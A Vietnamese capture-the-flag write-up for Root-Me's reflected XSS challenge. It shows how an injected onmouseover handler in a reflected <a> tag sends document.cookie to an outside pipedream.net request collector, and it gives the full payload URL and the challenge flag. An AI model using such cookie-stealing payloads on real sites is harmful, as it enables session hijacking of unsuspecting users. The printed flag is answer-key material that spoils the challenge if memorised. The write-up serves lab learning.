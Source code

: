 # WRITE UP

## **Challenge: [XSS Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)**

Kiểm tra source website ta thấy web bị comment 1 thẻ \<a\> dẫn đến ?p=security:

![Text Description automatically generated](./media/image1.png){width="6.5in" height="2.8986111111111112in"}

Request đến ?p=security, website hiển thị trang web lỗi và có một hyperlink thẻ \<a\> hiển thị nội dung 'security':

![Graphical user interface, text, application Description automatically generated](./media/image2.png){width="6.5in" height="3.0340277777777778in"}

Thử nhập ?p=\<giá trị khác\>, page sẽ báo lỗi và hiển thị nội dung \<giá trị khác\> trong thẻ \<a\>. Như vậy, lợi dụng thẻ \<a\> này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

![Graphical user interface, text, application Description automatically generated](./media/image3.png){width="6.5in" height="2.2625in"}

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.

Payload: <http://challenge01.root-me.org/web-client/ch26/?p=nh4ttruong%27%20onmouseover=%27document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?%22.concat(document.cookie)>

Thực hiện request với payload, sau đó ta trigger event 'onmouseover' và di chuyển chuột qua thẻ \<a\> để chuyển hướng website:

![Graphical user interface, application Description automatically generated](./media/image4.png){width="6.5in" height="1.0395833333333333in"}

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

![Graphical user interface, text, application, email Description automatically generated](./media/image5.png){width="5.2193547681539805in" height="2.0922025371828523in"}

![Graphical user interface, text Description automatically generated](./media/image6.png){width="6.5in" height="1.8604166666666666in"}

Qua RequestBin và nhận flag:

![Graphical user interface, text, application Description automatically generated](./media/image7.png){width="6.5in" height="1.9493055555555556in"}

**Flag:** r3fL3ct3D_XsS_fTw
